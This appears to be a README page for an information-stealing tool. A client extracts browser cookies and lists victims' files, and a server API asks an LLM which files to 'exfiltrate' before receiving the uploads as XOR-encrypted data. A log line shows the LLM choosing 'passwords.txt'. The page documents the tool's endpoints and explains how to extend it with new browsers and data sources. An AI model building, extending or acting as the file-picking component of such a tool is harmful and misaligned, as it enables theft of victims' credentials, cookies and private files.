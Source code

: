 ### Adding New Features

1. **New Browser Support** - Add to `client/firefox_cookies.c`
2. **New Data Sources** - Create new extraction modules
3. **Server Enhancements** - Modify `server/routes/`
4. **LLM Prompts** - Update `server/llm.py`

## 📋 API Endpoints

### POST /api/decision
**Purpose:** Get LLM decision on which files to exfiltrate

**Request:**
```json
{
  "fingerprint": {
    "user": "username",
    "host": "computername", 
    "os": "Windows"
  },
  "files": [
    {
      "name": "filename.txt",
      "path": "C:\\Users\\...\\filename.txt",
      "size": 1024,
      "modified": "2025-01-01 12:00"
    }
  ]
}
```

**Response:**
```json
{
  "exfiltrate": ["filename.txt"],
  "reasons": {
    "filename.txt": "Contains sensitive information..."
  }
}
```

### POST /api/upload
**Purpose:** Upload encrypted files and cookies

**Headers:**
- `Content-Type: application/octet-stream`
- `X-Filename: filename.txt` (or `X-Filename-B64: base64_encoded_name`)

**Body:** XOR-encrypted file data

## 🎯 Use Cases


[LLM DECISION RAW]: {"exfiltrate": ["passwords.txt"], "reasons": {...}}